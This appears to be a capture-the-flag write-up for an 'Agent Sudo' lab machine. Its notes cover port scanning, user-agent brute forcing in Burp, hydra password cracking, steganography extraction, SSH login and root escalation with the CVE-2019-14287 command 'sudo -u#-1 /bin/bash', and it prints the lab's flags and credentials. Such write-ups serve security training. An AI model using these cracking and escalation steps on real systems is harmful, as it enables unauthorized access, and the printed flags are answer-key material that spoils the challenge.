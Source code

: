 ====Agent Sudo Flutter July 24 2021====

'IP 10.10.219.45</br>
	$ export IP=10.10.219.45'</br>
'MYIP 10.10.213.35</br>
	$ export MYIP=10.10.213.35'

# Recon #

----------------
	Scanning
----------------

- nmap -sV -sC -T5 -oN nmap_initial $IP

		'''
		21/tcp open  ftp     vsftpd 3.0.3
		22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
		80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
			http-server-header: Apache/2.4.29 (Ubuntu)
			http-title: Annoucement
		'''

---------------------
	Visiting Site
---------------------

	'''
	Dear agents,

	Use your own codename as user-agent to access the site.

	From,
	Agent R 
	'''
Codename? Guessing the "Agent [letter]" is what they mean

- Intercepting with Burp
	> Sniper 
		>> target field: User-Agent 
		>> wordlist of a-zA-Z 
		>> don't exclude HTTP headers and grep for "10, 20, 30, 40, 50"
			//looking for "30" for redirects but more information is always nice
			< 1 redirect found! > User-Agent: C

	> Intercept
		>> set User-Agent: C

		 '''
		 Attention chris,
		
		 Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!
		
		 From,
		 Agent R
		 '''


---Possible Users---

- Chris
- R?
- J?


# Intrusion #

---ChrisFTP---

- ftp $IP
	Name: chris
	Pass: crystal

ftp > ls

	'''
	-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
	-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
	-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
	'''
	
ftp > mget To_agentJ cute-alien.jpg cutie.png
ftp > exit

//all right so we've got all Chris' files, let's see what's headers

- To_agentJ.txt	

'''
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
'''

//oh okay stenography

---Stenography---

- binwalk cutie.png -e
- ls _cutie.png.extracted

'''
365  365.zlib  8702.zip  To_agentR.txt
'''
	8702.zip is password protected
		(see #Passwords#)

- 7z e 8702.zip
	> pass: alien
- To_agentR.txt

'''
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
'''
	> QXJlYTUx
		(see #Passwords#)


- steghide extract -sf cute-alien.jpg > message.txt
	pass: Area51
		(see #Passwords#)
	

- message.txt

'''
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
'''


---SSH---

- ssh james@$IP
	pass: hackerrules!

- ls

'''
Alien_autospy.jpg  user_flag.txt
'''

**Flag Found**
	/home/james/user_flag.txt: <b03d975e8c92a7c04146cfa7a5a313c7>



#PrivEsc

- sudo -l
	> password protected, tried "hackerrules!" and succeeded
	
	"(ALL, !root) /bin/bash"

- searching "(ALL, !root) /bin/bash"
	CVE: 2019-14287
	"sudo -u#-1 /bin/bash"

- root gain

**Flag Found**
	/root/root.txt: <b53a02f55b57d4439e3341834d70c062>



# Passwords #

----------------
	Cracking
----------------

- chris' ftp
	hydra -l chris -P rockyou.txt $IP ftp -o chris_pass
	pass: crystal

- 8702.zip
	zip2john steno/_cutie.png.extracted/8702.zip > 8702john
	john 8702john
	pass: alien

- QXJlYTUx
	CyberChef
	base64: Area51

---------------
	Exposed
---------------

- message.txt
	user: james
 	pass: hackerrules!

